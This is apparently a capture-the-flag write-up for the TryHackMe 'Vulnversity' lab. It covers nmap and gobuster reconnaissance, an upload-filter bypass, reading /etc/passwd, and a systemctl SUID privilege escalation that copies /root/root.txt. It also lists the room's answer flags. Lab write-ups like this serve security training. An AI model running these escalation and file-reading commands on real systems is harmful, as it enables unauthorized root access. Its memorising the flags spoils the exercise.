

# Vulnversity

**Date:** 06, January, 2021

**Author:** Dhilip Sanjay S

---
[Click Here](https://tryhackme.com/room/vulnversity) to go to the TryHackMe room.

## Reconnaissance
- nmap is an free, open-source and powerful tool used to discover hosts and services on a computer network.

### Scan the box, how many ports are open?
- **Answer:** 6
- **Steps to Reproduce:** 
    ```bash
    nmap <MACHINE_IP>
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-06 12:58 IST
    Nmap scan report for <MACHINE_IP>
    Host is up (0.21s latency).
    Not shown: 994 closed ports
    PORT     STATE SERVICE
    21/tcp   open  ftp
    22/tcp   open  ssh
    139/tcp  open  netbios-ssn
    445/tcp  open  microsoft-ds
    3128/tcp open  squid-http
    3333/tcp open  dec-notes

    Nmap done: 1 IP address (1 host up) scanned in 3.24 seconds
    ```

---

### What version of the squid proxy is running on the machine?
- **Answer:** 3.5.12
- **Steps to Reproduce:** 
    ```bash
    nmap -A <MACHINE_IP>
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-06 13:00 IST
    Nmap scan report for <MACHINE_IP>
    Host is up (0.16s latency).
    Not shown: 994 closed ports
    PORT     STATE SERVICE     VERSION
    21/tcp   open  ftp         vsftpd 3.0.3
    22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
    |   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)
    |_  256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
    139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
    445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
    3128/tcp open  http-proxy  Squid http proxy 3.5.12
    |_http-server-header: squid/3.5.12
    |_http-title: ERROR: The requested URL could not be retrieved
    3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    |_http-title: Vuln University
    No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
    TCP/IP fingerprint:
    OS:SCAN(V=7.91%E=4%D=1/6%OT=21%CT=1%CU=31488%PV=Y%DS=2%DC=T%G=Y%TM=5FF5673B
    OS:%P=x86_64-pc-linux-gnu)SEQ(SP=100%GCD=1%ISR=10E%TI=Z%CI=I%II=I%TS=8)OPS(
    OS:O1=M505ST11NW6%O2=M505ST11NW6%O3=M505NNT11NW6%O4=M505ST11NW6%O5=M505ST11
    OS:NW6%O6=M505ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(
    OS:R=Y%DF=Y%T=40%W=6903%O=M505NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
    OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
    OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
    OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
    OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
    OS:S)

    Network Distance: 2 hops
    Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

    Host script results:
    |_clock-skew: mean: 1h40m01s, deviation: 2h53m13s, median: 0s
    |_nbstat: NetBIOS name: VULNUNIVERSITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
    | smb-os-discovery: 
    |   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
    |   Computer name: vulnuniversity
    |   NetBIOS computer name: VULNUNIVERSITY\x00
    |   Domain name: \x00
    |   FQDN: vulnuniversity
    |_  System time: 2021-01-06T02:31:02-05:00
    | smb-security-mode: 
    |   account_used: guest
    |   authentication_level: user
    |   challenge_response: supported
    |_  message_signing: disabled (dangerous, but default)
    | smb2-security-mode: 
    |   2.02: 
    |_    Message signing enabled but not required
    | smb2-time: 
    |   date: 2021-01-06T07:31:01
    |_  start_date: N/A

    TRACEROUTE (using port 443/tcp)
    HOP RTT       ADDRESS
    1   163.90 ms 10.8.0.1
    2   164.74 ms <MACHINE_IP>

    OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 48.82 seconds
    ```
---

### How many ports will nmap scan if the flag -p-400 was used?
- **Answer:** 400
- **Note:**
    - `-p-100` - will scan 100 ports.
    - `-p100` - will scan 100th port.
---

### Using the nmap flag -n what will it not resolve?
- **Answer:** DNS
- **Steps to Reproduce:** 
    - -n/-R: Never do DNS resolution/Always resolve [default: sometimes]
---

### What is the most likely operating system this machine is running?
- **Answer:** Ubuntu

---

### What port is the web server running on?
- **Answer:** 3333

---

## Locating Directories using GoBuster
GoBuster flag |	Description
--------------|--------------
-e	| Print the full URLs in your console
-u	| The target URL
-w	| Path to your wordlist
-U and -P | Username and Password for Basic Auth
-p <x> | Proxy to use for requests
-c <http cookies> | Specify a cookie for simulating your auth

### What is the directory that has an upload form page?
- **Answer:** /internal/
- **Steps to Reproduce:** 
    ```bash
    gobuster dir -u http://<MACHINE_IP>:3333 -t 100 -w /usr/share/wordlists/dirb/common.txt 

    ===============================================================
    Gobuster v3.0.1
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
    ===============================================================
    [+] Url:            http://<MACHINE_IP>:3333
    [+] Threads:        100
    [+] Wordlist:       /usr/share/wordlists/dirb/common.txt
    [+] Status codes:   200,204,301,302,307,401,403
    [+] User Agent:     gobuster/3.0.1
    [+] Timeout:        10s
    ===============================================================
    2021/01/06 13:11:01 Starting gobuster
    ===============================================================
    /.htaccess (Status: 403)
    /.hta (Status: 403)
    /.htpasswd (Status: 403)
    /css (Status: 301)
    /fonts (Status: 301)
    /images (Status: 301)
    /index.html (Status: 200)
    /internal (Status: 301)
    /js (Status: 301)
    /server-status (Status: 403)
    ===============================================================
    2021/01/06 13:11:14 Finished
    ===============================================================
    ```
---

## Compromise the web server

### Try upload a few file types to the server, what common extension seems to be blocked?
- **Answer:** .php
- **Steps to Reproduce:** 
    - Usually php files are not allowed to be uploaded.

---

### Run this attack, what extension is allowed?
- **Answer:** .phtml 
- **Note:** The content length is different for phtml and the response shows `Success`.


---


## Reverse shell

### What is the name of the user who manages the webserver?
- **Answer:** bill
- **Steps to Reproduce:** 
    ```bash
    $ cat /etc/passwd
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
    systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
    systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
    systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
    syslog:x:104:108::/home/syslog:/bin/false
    _apt:x:105:65534::/nonexistent:/bin/false
    lxd:x:106:65534::/var/lib/lxd/:/bin/false
    messagebus:x:107:111::/var/run/dbus:/bin/false
    uuidd:x:108:112::/run/uuidd:/bin/false
    dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
    sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
    ftp:x:111:119:ftp daemon,,,:/srv/ftp:/bin/false
    bill:x:1000:1000:,,,:/home/bill:/bin/bash
    ```

---

### What is the user flag?
- **Answer:** 
- **Steps to Reproduce:** 
    ```bash
    $ cd /home/bill
    $ cat user.txt  
    8bd7992fbe8a6ad22a63361004cfcedb
    ```
---

## Privilege Escalation
### On the system, search for all SUID files. What file stands out?
- **Answer:** 
- **Steps to Reproduce:** 
    ```bash
    $ find / -type f -perm /4000 2>/dev/null
    /usr/bin/newuidmap
    /usr/bin/chfn
    /usr/bin/newgidmap
    /usr/bin/sudo
    /usr/bin/chsh
    /usr/bin/passwd
    /usr/bin/pkexec                                                                                                                                                                             
    /usr/bin/newgrp                                                                                                                                                                             
    /usr/bin/gpasswd                                                                                                                                                                            
    /usr/bin/at                                                                                                                                                                                 
    /usr/lib/snapd/snap-confine
    /usr/lib/policykit-1/polkit-agent-helper-1
    /usr/lib/openssh/ssh-keysign
    /usr/lib/eject/dmcrypt-get-device
    /usr/lib/squid/pinger
    /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
    /bin/su
    /bin/ntfs-3g
    /bin/mount
    /bin/ping6
    /bin/umount
    /bin/systemctl
    /bin/ping
    /bin/fusermount
    /sbin/mount.cifs
    ```
---

### Become root and get the last flag (/root/root.txt)
- **Answer:** a58ff8579f0a9270368d33a9966c7fd5
- **Steps to Reproduce:** 
    ```bash
    $ TF=$(mktemp).service
    $ echo '[Service]
    > Type=oneshot
    > ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
    > [Install]
    > WantedBy=multi-user.target' > $TF
    $ /bin/systemctl link $TF
    Created symlink from /etc/systemd/system/tmp.2K1Rvcs7BB.service to /tmp/tmp.2K1Rvcs7BB.service.
    $ /bin/systemctl enable --now $TF
    Created symlink from /etc/systemd/system/multi-user.target.wants/tmp.2K1Rvcs7BB.service to /tmp/tmp.2K1Rvcs7BB.service.
    $ cat /tmp/output
    a58ff8579f0a9270368d33a9966c7fd5
    ```
    - Refer [GTFO Bins](https://gtfobins.github.io/gtfobins/systemctl/)
---